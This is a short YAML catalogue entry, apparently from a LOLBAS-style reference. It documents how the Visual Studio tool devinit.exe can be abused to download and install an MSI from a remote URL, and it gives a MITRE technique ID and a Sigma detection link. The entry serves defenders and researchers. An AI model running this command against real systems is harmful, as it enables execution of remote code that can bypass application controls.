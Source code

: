 ```yaml
---
Name: Devinit.exe
Description: Visual Studio 2019 tool
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: devinit.exe run -t msi-install -i {REMOTEURL:.msi}
    Description: Downloads an MSI file to C:\Windows\Installer and then installs it.
    Usecase: Executes code from a (remote) MSI file.
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: MSI
      - Execute: Remote
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\<version>\Community\Common7\Tools\devinit\devinit.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\<version>\Community\Common7\Tools\devinit\devinit.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_devinit_lolbin_usage.yml
Resources:
  - Link: https://twitter.com/mrd0x/status/1460815932402679809
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

